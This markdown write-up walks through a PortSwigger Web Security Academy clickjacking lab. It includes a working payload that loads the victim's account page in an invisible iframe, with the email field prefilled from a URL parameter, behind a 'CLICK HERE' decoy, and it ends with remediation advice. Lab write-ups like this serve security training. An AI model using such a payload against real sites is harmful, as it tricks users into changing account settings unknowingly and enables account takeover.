






# Clickjacking
**Lab: Clickjacking with form input data prefilled from a URL parameter (Web Security Academy)**

**Level: Apprentice**

---

## Vulnerability Overview

This lab demonstrates a clickjacking variant that exploits a **prefilled form input via URL parameter**. The application allows the email field in the account update form to be prefilled via a query string (`?email=...`). The attacker uses this to prefill the form with a malicious value before framing it - so the victim doesn't even need to type anything. One click submits a fully prepared, attacker-controlled form.

Combined with clickjacking, URL-prefilled forms remove the last friction from the attack: the victim just clicks.

---

## Steps to Solve the Lab

1. **Confirm the prefill behavior**
   - Open the lab and log in as `wiener`.

     

     

   - Visit:
     ```
     /my-account?email=test@testmail.com
     ```
   - The email input field is automatically populated with `test@testmail.com`. Clicking **Update email** submits the form with this value - no typing required.

     

2. **Build the clickjacking exploit**
   - On the exploit server, set the **Body** to:
     ```html
     <style>
       iframe {
         position: absolute;
         top: 0;
         left: 0;
         width: 1000px;
         height: 700px;
         opacity: 0.0001;
         z-index: 1;
       }
       div {
         position: absolute;
         top: 450px;       /* aligned with Update email button */
         left: 50px;
         z-index: 2;
         font-size: 24px;
         background: #fff;
         padding: 10px;
       }
     </style>
     <div>CLICK HERE</div>
     <iframe src="https://<lab-id>.web-security-academy.net/my-account?email=test@testmail.com">
     </iframe>
     ```

3. **Store and deliver**
   - Click **Store**, then **Deliver exploit to victim**.

4. **Result**
   - The victim clicks "CLICK HERE," which hits the **Update email** button in the hidden iframe - changing their email to `test@testmail.com` without their knowledge.
   - The lab banner changes to **"Congratulations, you solved the lab!"**.

   

   

   

---

## Why This Works

The URL parameter prefills the form server-side (or client-side via JavaScript) before the page is rendered in the iframe. When the iframe loads, the email field already contains the attacker's value. The victim's single click submits a fully crafted form with valid session cookies and (if present) a valid CSRF token - because the form is real and comes from the victim's own authenticated session.

The attacker never sees or handles the victim's credentials. The victim's own browser does all the work.

---

## Remediation

- **`X-Frame-Options: DENY`** or **`Content-Security-Policy: frame-ancestors 'none'`** - prevents the page from being loaded in any iframe, which is the correct defense.
- **Avoid prefilling sensitive form fields from URL parameters** - it increases the attack surface for clickjacking and CSRF-like attacks. If prefilling is required, validate and sanitize the value, and consider requiring explicit user confirmation before the action is submitted.

---

Link: https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input
